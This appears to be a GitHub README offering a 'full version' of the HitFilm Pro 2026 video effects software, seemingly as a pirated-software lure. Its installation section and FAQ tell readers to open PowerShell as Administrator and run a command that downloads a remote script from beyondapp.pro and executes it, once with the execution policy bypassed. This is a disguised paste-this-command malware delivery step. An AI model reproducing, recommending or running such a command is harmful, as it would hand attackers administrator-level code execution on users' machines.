

<div align="center">


<br>


# HitFilm Pro 2026 Visual Effects Studio Full Version
**Compositor · 3D particles · Chroma key**
<br>
**Compositor · 3D particles · Chroma key**
<br>
Full Version  ◆  Pro  ◆  Complete  ◆  Windows



**HitFilm Pro 2026 — compositing timeline, 3D particle systems, chroma key tools and VFX preset library all enabled.**

</div>
---

> Composite explosions and titles in one timeline — 3D particles, keying and effect presets all enabled.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

✨ **VFX plugins** — GPU effects and transitions enabled.
🎬 **Post pipeline** — Integrates with pro video workflows.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for editing workstations.
🎚️ **Motion toolkit** — Presets and generators included.
🔌 **Plugin ready** — Pro host compatibility supported.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 12 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 12 gb free space.
</details>


TAGS
hitfilm-pro-2026-visual-effects-studio, hitfilm, hitfilm-visual, hitfilm-visual-effects, hitfilm-effects, hitfilm-pro, hitfilm-studio, windows, pro, desktop, software, studio, tools
